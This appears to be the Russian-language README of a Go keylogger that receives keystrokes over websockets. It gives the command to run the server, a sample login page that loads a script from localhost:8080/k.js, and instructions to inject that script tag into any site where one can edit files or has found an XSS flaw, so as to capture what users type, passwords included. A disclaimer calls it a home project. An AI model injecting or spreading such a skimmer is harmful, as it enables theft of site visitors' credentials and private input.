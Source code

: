 # Дисклеймер
Автор не несет ответственности за использование вами этой программы.
Она создавалась в качестве домашнего проекта.
Использование этой программы в плохих целях может повлечь уголовную ответсвенность.

# keylogger
Простой кейлоггер, написанный на языке go, который использует websockets.

## Как это работает?
Для того, чтобы запустить программу нужно первоначально установить go. После установки, в терминале папке в папке с файлами ввести следующую комманду

go run main.go -listen-addr=127.0.0.1:8080 -ws-addr=127.0.0.1:8080
Эта комманда запускает на локальном сервере адресс для вебсокета, который будет принимать нажатые клавиши.

## Как протестировать кейлоггер?
Нужно перейти на сайт http://jsbin.com и ввести следующий код

` <!DOCTYPE html>
<html>
<head>
<title>Login</title>
</head>
<body>
<script src='http://localhost:8080/k.js'></script>
<form action='/login' method='post'>
<input name='username'/>
<input name='password'/>
<input type="submit"/>
</form>
</body>
</html> `

После запуска программы в терминале начнут отобржаться буквы, который нажал пользователь.
Данная программа работает по следющиму принципу:
Если в сайте вы смогли получить доступ к изменению файлов или нашли xss уязвимость, то добавим строчку кода <script src='http://localhost:8080/k.js'></script> 
вы сможете получать к данным, которые вводят пользователи.

